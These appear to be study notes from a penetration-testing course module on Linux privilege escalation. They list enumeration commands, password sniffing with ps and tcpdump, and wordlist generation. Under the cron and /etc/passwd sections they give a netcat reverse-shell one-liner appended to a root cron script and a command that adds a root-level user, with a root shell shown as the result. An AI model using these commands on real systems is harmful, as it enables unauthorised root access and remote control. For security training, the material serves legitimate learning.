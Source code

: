 # Module 17: Linux Privilege Escalation

### Enumerating Linux

A **very** useful site for privilege escalation:

{% embed url="https://gtfobins.github.io/" %}

#### Understanding Files and Users Privileges on Linux

File permissions, nothin' fancy to add.

#### Manual Enumeration

```bash
# Various places to gather information
kali@kali:~$ hostname # Device name
kali@kali:~$ cat /etc/issue # OS Version
kali@kali:~$ cat /etc/os-release # Release-specific information
kali@kali:~$ uname -a # Kernel Version & Architecture
kali@kali:~$ ps aux # List all running services (with or without a tty) in user-readable format
kali@kali:~$ ip a # TCP/IP information for every network adapter
kali@kali:~$ routel # List routing information
kali@kali:~$ ss -anp # List all network connections w/o name resolution, including process name owning the connection
kali@kali:~$ cat /etc/iptables/rules.v4 # Reading firewall rules
kali@kali:~$ ls -lah /etc/cron* # Scheduled task scripts
kali@kali:~$ crontab -l # List the current user's scheduled jobs
kali@kali:~$ dpkg -l # List installed applications on Debian system
kali@kali:~$ find / -writable -type d 2>/dev/null # Finding all writable directories
kali@kali:~$ cat /etc/fstab # List all auto-mounted filesystems
kali@kali:~$ mount # List all currently mounted filesystems
kali@kali:~$ lsblk # View all available disks
kali@kali:~$ lsmod # List kernel modules
kali@kali:~$ /sbin/modinfo <module> # Gather additional information on a kernel module
kali@kali:~$ find / -perm -u=s -type f 2>/dev/null # Finding all files with the SUID bit set
```

#### Automated Enumeration

Bash script to check for privilege escalation vectors: `/usr/bin/unix-privesc-check`\
Note: This runs via /bin/sh by default, run with bash to avoid issues with if statements.

### Exposed Confidential Information

#### Inspecting User Trails

Check environment variables via `env`, dig into where they come from if important information is stored to validate it.

Creating a custom wordlist with `crunch`:

{% code overflow="wrap" %}
```bash
# This generates a wordlist with a minimum and maximum character length of 6, specifying the pattern with -t.
kali@kali:~$ crunch 6 6 -t Lab%%% > wordlist
```
{% endcode %}

#### Inspecting Service Footprints

Watching for processes that may be started with important information:

```bash
kali@kali:~$ watch -n 1 'ps aux | grep -i pass'
```

If we have privileges to capture network traffice:

```bash
kali@kali:~$ sudo tcpdump -i <interface> -A | grep -i 'pass'
```

### Insecure File Permissions

#### Abusing Cron Jobs

Searching syslog for cronjobs (also reviewing **/var/log/cron.log**):

{% code overflow="wrap" lineNumbers="true" %}
```bash
kali@kali:~$ grep 'CRON' /var/log/syslog
# Determining permission of script run as root via cronjob
kali@kali:~$ ls -l /home/joe/.scripts/user_backups.sh

# Adding a one-liner reverse shell to the script
kali@kali:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc your.listener.ip.here port >/tmp/f" >> user_backups.sh
```
{% endcode %}

#### Abusing Password Authentication

If the **/etc/passwd** file is writable, we can abuse this due to Linux using authentication here prior to **/etc/shadow** for backwards compatability.

Generating a hash via `openssl` then adding it to **/etc/passwd** if it's writable:

```bash
kali@kali:~$ openssl passwd w00t
.lTs.02x/lWNE

kali@kali:~$ echo 'root2:.lTs.02x/lWNE:0:0:root:/root:/bin/bash' >> /etc/passwd

kali@kali:~$ su - root2
Password: w00t

root@debian-privesc:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Insecure System Components

#### Abusing Setuid Binaries and Capabilities

Searching for binaries with capability misconfigurations:

```bash
kali@kali:~$ /usr/sbin/getcap -r / 2>/dev/null
kali@kali:~$ find / -type f -perm -u=s -user root 2>/dev/null
```

#### Abusing Sudo

See what commands can be potentially abused via sudo:

```bash
kali@kali:~$ sudo -l
```

#### Exploiting Kernel Vulnerabilities

{% hint style="warning" %}
Kernel exploits can be volatile, be careful just tossing them around.
{% endhint %}
